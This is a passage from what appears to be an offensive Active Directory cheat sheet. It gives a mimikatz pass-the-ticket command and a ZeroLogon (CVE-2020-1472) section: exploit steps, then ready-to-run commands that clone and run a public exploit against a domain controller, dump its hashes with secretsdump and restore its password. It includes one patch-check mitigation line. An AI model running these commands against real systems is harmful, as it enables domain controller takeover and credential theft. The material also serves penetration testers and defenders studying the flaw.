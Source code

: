 ```powershell
mimikatz.exe "kerberos::ptc c:\temp\TGT_darthsidious@lab.adsecurity.org.ccache"
```

#### Mitigations

- Ensure the DCPromo process includes a patch QA step before running DCPromo that checks for installation of KB3011780. The quick and easy way to perform this check is with PowerShell: get-hotfix 3011780

### ZeroLogon

> CVE-2020-1472

White Paper from Secura : https://www.secura.com/pathtoimg.php?id=2055

Exploit steps from the white paper

1.  Spoofing the client credential
2.  Disabling signing and sealing
3.  Spoofing a call
4.  Changing a computer's AD password to null
5.  From password change to domain admin
6.  :warning: reset the computer's AD password in a proper way to avoid any Deny of Service

- `cve-2020-1472-exploit.py` \- Python script from [dirkjanm](https://github.com/dirkjanm)
    
    ```powershell
      # Check (https://github.com/SecuraBV/CVE-2020-1472)
      proxychains python3 zerologon_tester.py DC01 172.16.1.5
      
    $ git clone https://github.com/dirkjanm/CVE-2020-1472.git
    
    # Activate a virtual env to install impacket
    $ python3 -m venv venv
    $ source venv/bin/activate
    $ pip3 install .
      
    # Exploit the CVE (https://github.com/dirkjanm/CVE-2020-1472/blob/master/cve-2020-1472-exploit.py)
    proxychains python3 cve-2020-1472-exploit.py DC01 172.16.1.5
    
    # Find the old NT hash of the DC
    proxychains secretsdump.py -history -just-dc-user 'DC01$' -hashes :31d6cfe0d16ae931b73c59d7e0c089c0 'CORP/DC01$@DC01.CORP.LOCAL'
    
    # Restore password from secretsdump 
    # secretsdump will automatically dump the plaintext machine password (hex encoded) 
    # when dumping the local registry secrets on the newest version
    python restorepassword.py CORP/DC01@DC01.CORP.LOCAL -target-ip 172.16.1.5 -hexpass e6ad4c4f64e71cf8c8020aa44bbd70ee711b8dce2adecd7e0d7fd1d76d70a848c987450c5be97b230bd144f3c3
    deactivate
    ```
    